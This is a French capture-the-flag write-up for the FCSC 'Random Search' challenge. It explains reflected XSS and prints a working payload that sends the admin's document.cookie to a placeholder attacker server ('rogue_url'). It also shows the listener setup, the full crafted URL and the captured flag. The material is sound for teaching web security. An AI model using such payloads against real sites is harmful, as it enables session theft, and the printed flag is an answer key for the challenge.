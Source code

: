 # Random Search 

catégorie | points
:-----: | :-----:
Intro | 20

## 0x0 Intro

>Pourrez-vous voler le cookie de l'administrateur qui visite les pages ?
>
>http://challenges2.france-cybersecurity-challenge.fr:5001/

## 0x1 Explications

Grand classique, le vol de cookie d'administration est un incontournable des challenges de cybersécurité.

Nous allons donc devoir surement utiliser une faille XSS et forcer l'admin à la lire.

## 0x2 Reconnaissance

### 0x2-0 Reconnaissance visuelle

Comme avant toute attaque informatique, il faut d'abord faire la reconnaissance de la cible.

En cliquant sur le lien, nous arrivons sur une page web avec un premier endroit interessant, la zone **Rechercher**

En effet, c'est dans ces zones que nous pourrons (ou pas) injecter notre code.

Puis nous avons un lien **contact**, qui lui nous demande de remonter des URL en cas de souci de recherche.

### 0x2-1 Théorie

Déjà, on peut imaginer que:

* la zone **Rechercher** ne sera pas le bon vecteur, car elle n'impactera que nous. Mais nous le vérifierons quand même pour le Write-Up
* la zone **URL** de contact, en effet, si nous voulons voler le cookie de l'admin, cela me semble être le meilleur vecteur

## 0x3 Exploitation

### 0x3-0 Rechercher

Dans la zone Rechercher, nous allons commencer par simple, nous allons entrer FCSC:
![](./IMG/1.png)

![](./IMG/1-a.png)

Nous retrouvons notre recherche dans le titre de la recherche, et l'URL est modifiée par ?search=FCSC

Que ce passerait-il si nous insérons un script dedans ?

![](./IMG/2.png)

Le résultat n'est pas probant, pas d'affichage de popup et on vois que le titre de la recherche n'est plus le même, mais l'URL elle à été changée par: 

> "?search=\<script\>alert\(miaou\)%3B\<%2Fscript\>"

Ce qui confirme ce que nous pensions au début, la partie vulnérable est dans **URL**.

### 0x3-1 Rechercher

Bien évidement, comme c'est l'admin qui va lire le script, nous n'allons pas lui envoyer un popup, mais nous allons de suite essayer de lui voler le cookie.

Pour cela, nous allons utiliser le script suivant :

> "\<script\>document.location='http://rogue_url:8000/?'+document.cookie\</script\>"

Évidement, remplacez **rogue_url** par votre serveur web, et si vous n'en n'avez pas nous allons en monter un très rapidement.

Pour cela, utiliser la commande suivante dans votre terminal linux (ou windows, et même mac):

```bash
python -m http.server
```

N'oubliez pas de rediriger le port 8000 via le NAT de votre box vers votre ordinateur.

Puis dans la zone URL, insérons l'url suivante:

> "http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=\<script\>document.location='http://rogue_url:8000/?'+document.cookie\</script\>"

Nous patientons, et très rapidement, nous trouvons la solution suivante:

!["ça flag mon ami !"](./IMG/5.png)

## 0x4 Explication

Pourquoi ça flag ? Tout simplement grace au script, nous avons récupéré le cookie avec **document.cookie** que nous avons redirigé vers nous avec **document.location**

Et comme nous avons un serveur en écoute, nous avons pu récupérer dans les logs le cookie, et donc le flag.

## 0x5 TL;DR

Nous avons exploité une faille XSS, [La Reflected XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

Cette faille nous a permis de récupéré le flag qui lui était stocké dans le cookie **admin=** qui lui contenait la valeur suivante:

>FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
